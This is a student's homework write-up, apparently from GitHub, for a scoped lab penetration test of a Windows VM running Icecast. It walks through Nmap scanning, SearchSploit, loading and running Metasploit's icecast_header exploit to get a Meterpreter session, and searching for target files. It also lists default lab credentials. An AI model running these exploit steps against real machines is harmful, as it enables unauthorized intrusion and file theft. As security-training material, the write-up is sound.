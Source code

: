 # Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

![Nmap Scan](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/nmap%20scan.png)

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

![Searchsploit Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/searchsploit%20icecast.PNG)

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

![msfconsole](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/msfconsole.PNG)

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

![Search Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20icecast.PNG)

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`



**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

![Set RHOST 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%201.PNG)

![Set RHOST 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%202.PNG)

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

![Exploit command](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/exploit.PNG)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile.txt` 

This command will place a wildcard in front of 'secret' in 'secretfile.txt', meanning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before 'secretfile.txt'.

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe.txt`

**Bonus: Run the command that exfiltrates the recipe*.txt file:**

Answer:

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer:

**B. Open a Meterpreter shell.**

Answer:

**C. Run the command that displays the target's computer system information:**

Answer:
